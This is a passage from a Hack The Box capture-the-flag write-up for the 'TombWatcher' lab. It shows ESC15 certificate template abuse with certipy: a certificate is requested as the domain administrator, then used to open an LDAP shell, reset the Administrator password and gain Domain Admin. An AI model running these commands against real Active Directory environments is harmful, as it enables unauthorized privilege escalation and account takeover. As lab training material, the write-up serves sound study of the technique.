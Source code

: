 ![root5](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FeqL2W0lnVpV5FcegXBXK%252Fimage.png%3Falt%3Dmedia%26token%3Da758acfe-eed6-46aa-a40c-0c7e4b780c82&width=400&dpr=3&quality=100&sign=77e534f0&sv=2)
let's exploit it using ESC15

## ESC15: Vulnerable CT Abuse

Using the vulnerable ```WebServer``` certificate template, we requested a certificate for ```administrator@tombwatcher.htb```
```shell 
certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'HackTheBox' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -upn 'administrator@tombwatcher.htb'  \
    -application-policies 'Client Authentication'
```
![root6](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FzCXKmsVx6teCksdzzYdg%252Fimage.png%3Falt%3Dmedia%26token%3D8c07966f-cecb-426d-93a2-df353eca58ba&width=400&dpr=3&quality=100&sign=2f8fe164&sv=2)
authenticated with it, and reset the Administrator password .
```shell 
certipy auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72' -ldap-shell
```
gaining full Domain Admin access.
![last](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252Fquvu2tHkOJrBhr31nLYA%252Fimage.png%3Falt%3Dmedia%26token%3D232899cb-5d11-4377-bdf8-da23e4917f6c&width=400&dpr=3&quality=100&sign=267900d5&sv=2)

### Thanks for Reading , see you in the next writup!!!
